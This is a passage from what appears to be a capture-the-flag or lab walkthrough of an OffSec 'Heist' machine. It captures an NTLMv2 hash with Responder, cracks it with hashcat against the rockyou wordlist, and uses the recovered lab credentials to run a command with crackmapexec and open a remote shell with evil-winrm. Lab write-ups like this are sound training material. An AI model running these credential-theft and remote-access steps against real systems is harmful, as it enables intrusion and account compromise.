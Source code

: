 - After sending the request, our Responder response contains an NTLMv2 hash for the user enox.
  
![](Images/Pasted%20image%2020221012181626.png)

- Using vim we copy the whole hash, including the username, into a file called hash.txt. Next, we crack this hash type by using the following command to determine the required cracking mode:
  
hashcat -h | grep -i "ntlmv2"
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt

- The hash is cracked in a matter of moments and the password is saved in the "cracked.txt" file.
  
- We examine the "cracked.txt" file, revealing the password California and the username enox.

We then use crackmapexec to establish a remote session with the user enox. We run the command "crackmapexec winrm <target_IP> -d heist.offsec -u enox -p california -x "whoami"" and discover that the user "heist/enox" is running on the target machine. We then establish a winrm shell using the command "evil-winrm -i <target_IP> -u enox -p california".

- We type the following command and discover that the target machine is being used by user “heist/enox”:

crackmapexec winrm 192.168.123.165 -d heist.offsec -u enox -p california -x “whoami”

![](Images/Pasted%20image%2020221012181836.png)


- We receive the following winrm shell when we typed "evil-winrm -i 192.168.123.165 -u enox -p california":
  
![](Images/Pasted%20image%2020221012212318.png)
#evil-winrm  #Winrmshell


---